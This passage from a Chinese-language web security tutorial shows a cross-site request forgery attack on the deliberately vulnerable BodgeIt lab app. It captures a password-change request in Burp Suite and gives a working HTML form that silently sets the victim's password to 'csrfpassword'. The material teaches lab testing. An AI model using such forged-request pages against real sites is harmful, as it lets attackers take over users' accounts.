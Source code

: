 首先，我们需要分析我们想要强迫受害者执行的请求。为此，我们需要使用 Burp Suite 或其他在浏览器中配置的代理：

1.  以任何用户身份登录到 BodgeIt 并点击用户名进入个人资料页面。

1.  执行密码更改。我们来看一下代理中请求的样子：

![](img/63d1ffbb-3262-4f9d-a3df-2d49958d0819.png)

因此，它是一个 `POST` 请求，发送到 `http://192.168.56.11/bodgeit/password.jsp`，请求正文中仅包含密码及其确认信息。

1.  让我们尝试制作一个非常简单的 HTML 页面来复制这个请求。创建一个文件（我们将其命名为`csrf-change-password.html`），并将以下内容写入其中：

```
<html>
<body>
<form action="http://192.168.56.11/bodgeit/password.jsp" method="POST">
<input name="password1" value="csrfpassword">
<input name="password2" value="csrfpassword">
<input type="submit" value="submit">
</form>
</body>
</html>
```

1.  现在，在与我们已登录会话相同的浏览器中加载这个文件：

![](img/f5129a54-3664-4acf-9e4e-0729f69f8b2f.png)
